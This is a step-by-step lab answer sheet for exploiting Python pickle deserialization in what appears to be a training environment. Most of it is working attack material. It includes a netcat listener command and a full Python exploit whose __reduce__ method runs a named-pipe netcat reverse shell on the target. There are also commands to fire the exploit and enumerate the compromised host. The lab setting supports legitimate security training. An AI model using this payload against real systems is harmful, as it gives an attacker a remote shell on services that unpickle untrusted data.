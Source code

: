 # Python Deserialization Answersheet

**Step 1:** Navigate to "Python: Connect over TCP Socket: 16662".<br />
<kbd> <img src="1.png" /> </kbd>
<br /> <br />

**Step 2:** Capture the IP Address and port.<br />
<kbd> <img src="2.png" /> </kbd>
<br /> <br />

**Step 3:** Start the listener using following command.<br />
```
`nc -nlvp 5555
```
<kbd> <img src="3.png" /> </kbd>
<br /> <br />

**Step 4:** Use the following code to generate the payload.<br />
```python
#!/usr/bin/env python
#payload.py
import pickle
import socket
import os
import sys

if len(sys.argv) < 5:
    print "Usage: python py_exploit.py <attacker_ip_address> <attacker_port> <docker_ip_address> <docker_port>"
    sys.exit(1)

localIP=sys.argv[1] 
localPort=sys.argv[2]
dockerIP=sys.argv[3]
dockerPort=sys.argv[4]


class payload(object):
	def __reduce__(self):
		comm = "rm /tmp/shell; mknod /tmp/shell p; nc "+localIP+" "+localPort+" 0</tmp/shell | /bin/sh 1>/tmp/shell"
		return (os.system, (comm,))

payload = pickle.dumps( payload())
soc = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
soc.connect((dockerIP, int(dockerPort)))
print soc.recv(1024) 
soc.send(payload) 
```

**Step 5:** Run the exploit file using following command.<br />
```
python py_exploit.py 192.168.29.88 5555 192.168.29.201 16662
```
<kbd> <img src="4.png" /> </kbd>
<br /> <br />

**Step 6:** A connection will be received on reverse shell. Extract the system information using whoami, uname -a command.<br />
<kbd> <img src="5.png" /> </kbd>
<br /> <br />
